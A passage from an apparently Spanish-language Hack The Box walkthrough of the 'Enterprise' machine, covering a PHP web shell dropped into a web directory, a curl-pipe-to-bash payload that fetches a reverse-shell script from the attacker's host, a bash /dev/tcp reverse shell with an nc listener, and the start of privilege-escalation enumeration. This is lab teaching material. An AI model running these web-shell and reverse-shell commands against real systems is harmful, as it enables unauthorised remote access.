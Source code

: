 Perrrrrrfecto, asi que podemos crearnos un archivo `.php` con contenido malicioso para que sea interpretado por la web :) Y ver a donde nos lleva...

```bash
www-data@a7018bfdc454:/var/www/html/files$ echo '<?php system("whoami; hostname"); ?>' > hola.php
```

```bash
❭ curl -s -k https://10.10.10.61/files/hola.php
www-data
enterprise.htb
```

Al parecer ahora si estamos comunicándonos con el **host**, entablémonos una nueva Reverse Shell :)

```bash
www-data@a7018bfdc454:/var/www/html/files$ echo '<?php system("curl http://10.10.14.17:8000/rev.sh | bash"); ?>' > hola.php
```

Cambiamos el puerto en el que vamos a estar escuchando:

```bash
❭ cat rev.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/4435 0>&1
```

Nos ponemos en escucha: `nc -lvp 4435` y hacemos la petición hacia el recurso, obtenemos:

![112bash_wwwdata_enterpriseHTB_RevSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/enterprise/112bash_wwwdata_enterpriseHTB_RevSH.png)

Tratamiento de la TTY y a enumerar.

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Con **www-data** tenemos acceso a la flag `user.txt` sobre la ruta `/home/jeanlucpicard`.

Viendo los servicios corriendo internamente tenemos:

```bash
www-data@enterprise:/$ netstat -l
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State  
tcp        0      0 0.0.0.0:hostmon         0.0.0.0:*               LISTEN 
tcp        0      0 0.0.0.0:32812           0.0.0.0:*               LISTEN 
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN 
...
```

Los dos puertos que vimos externamente, **22** y **32812**. Pero también uno llamado **hostmon**, que jugando con el archivo `/proc/net/tcp` (y con internet), vemos que es el puerto **5355**. Dando vueltas con él no conseguimos nada, asi que recordamos el puerto **32812** que (no se vio, pero se hizo :P) externamente nos mostraba un programa interactivo, veámoslo pero internamente:
